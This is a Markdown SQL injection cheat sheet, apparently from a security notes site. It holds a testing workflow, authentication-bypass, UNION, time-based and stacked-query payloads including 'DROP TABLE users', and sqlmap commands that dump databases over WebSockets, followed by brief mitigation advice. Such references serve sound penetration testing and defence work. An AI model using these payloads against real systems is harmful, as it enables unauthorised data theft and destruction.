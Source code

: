 +++
title = 'SQL Injection Cheatsheet'
date = '2024-01-01'
draft = false
description = 'Payload patterns, testing workflow, and remediation guidance for SQL injection vulnerabilities.'
tags = ['sql-injection', 'web-security', 'cheatsheet']
categories = ['cheatsheets']
+++

# SQL Injection Cheatsheet

## Test Workflow

1. **Identify entry points**: parameters, headers, cookies, JSON bodies.
2. **Baseline request**: repeat the request and capture the normal response for comparison.
3. **Break the query**: start with a single quote `'` or double quote `"` to look for syntax errors.
4. **Confirm injection**: use logic tests such as `AND 1=1` (true) vs `AND 1=2` (false).
5. **Escalate**: move from time-based to union-based or stacked queries depending on DBMS.

## Quick Payloads

```http
' OR '1'='1' -- 
" OR "1"="1" -- 
') OR '1'='1' -- 
admin' -- 
admin' #
```

### Numeric Context
```http
1 OR 1=1
1 UNION ALL SELECT NULL
1 ORDER BY 5--
```

### Boolean Tests
```http
1 AND 1=1
1 AND SLEEP(5)
1 AND (SELECT 1 FROM pg_sleep(5))
```

## Union Enumeration

1. **Count columns**: `ORDER BY 1`, `ORDER BY 2`, increment until error.
2. **Match types**: `UNION ALL SELECT NULL,NULL` etc.
3. **Extract data**: replace `NULL` with payloads like `@@version`, `database()`, or `current_user`.

```http
1 UNION ALL SELECT @@version, user()
1 UNION ALL SELECT NULL, table_name FROM information_schema.tables
```

## Time-Based Enumeration

```http
1 AND SLEEP(5)
1 AND (SELECT CASE WHEN (SUBSTRING(user(),1,1)='r') THEN SLEEP(5) ELSE 0 END)
'; WAITFOR DELAY '0:0:5'--
```

## Stacked Queries

```http
'; DROP TABLE users; --
'; INSERT INTO log_table(user, ts) VALUES ('tester', NOW()); --
```

> Only available when the database driver supports multiple statements.

## Detection Cheatcodes

- Check `Content-Length` differences between responses.
- For blind cases, use time or response length changes.
- Monitor HTTP status codes (500 vs 200) during tests.

## DBMS Fingerprints

| Indicator | Likely DBMS |
|-----------|-------------|
| `@@version`, `sysobjects` | SQL Server |
| `information_schema.tables` | MySQL/PostgreSQL |
| `DUAL`, `FROM dual` | Oracle |
| `sqlite_master` | SQLite |

## WebSocket Automation

- Switch to a WebSocket-aware client when the application upgrades connections (e.g. `wscat -c ws://host:port/ws`).
- Boolean probes still work; wrap the JSON payload with logical operators such as `{"id":"92130 OR 5=1-- -"}`.
- sqlmap can drive WebSockets directly:

```bash
sqlmap -u 'ws://target/ws' --data '{"id":"*"}' --batch
sqlmap -u 'ws://target/ws' --data '{"id":"*"}' --level 5 --risk 3 --dump
```


## Mitigation Reminders

- Parameterized queries or stored procedures only.
- Input validation and allow lists (do not rely on blacklist).
- Use least privilege DB accounts.
- Centralize error handling to avoid leaking stack traces.

---

*Always capture before/after evidence and coordinate fixes with developers and database administrators.*

